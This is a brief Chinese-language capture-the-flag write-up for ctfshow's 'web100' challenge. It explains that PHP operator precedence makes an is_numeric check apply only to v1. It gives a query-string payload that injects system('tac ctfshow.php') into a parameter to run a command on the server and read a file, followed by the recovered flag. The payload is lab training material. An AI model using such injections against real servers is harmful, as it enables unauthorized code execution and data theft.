

# web100

命令执行
is_numeric() 函数用于检测变量是否为数字或数字字符串
&& > || > = > and > or%0D%0A%0D%0A=的运算符比and高
对于v0的值只需要看v1就可以v2,v3是干扰

?v1=1&v2=system('tac ctfshow.php')&v3=;
flag_is_ecef28170x2d4d6f0x2d42c00x2d8a3f0x2d69840251beda
ctfshow{ecef2817-4d6f-42c0-8a3f-69840251beda}
